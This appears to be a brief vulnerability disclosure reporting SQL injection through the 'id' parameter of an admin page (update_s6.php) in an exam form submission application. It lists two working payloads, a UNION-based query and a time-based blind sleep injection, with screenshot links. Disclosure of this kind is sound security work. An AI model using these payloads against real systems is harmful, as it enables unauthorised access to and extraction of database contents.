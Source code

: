 BUG_Author：HaoL

Vulnerability File: /examformsubmission/admin/update_s6.php

GET parameter 'id' exists SQL injection vulnerability

Payload1: id=1' union all select null,concat(0x717273,0x66676869),null,null-- -

UNION query.

![image](https://github.com/Aiiimer/requestCVE/blob/main/1.png)

Payload2: id=1' and (select 1 from (select(sleep(10)))z) and 'k'='k

time-based blind

![image](https://github.com/Aiiimer/requestCVE/blob/main/2.png)
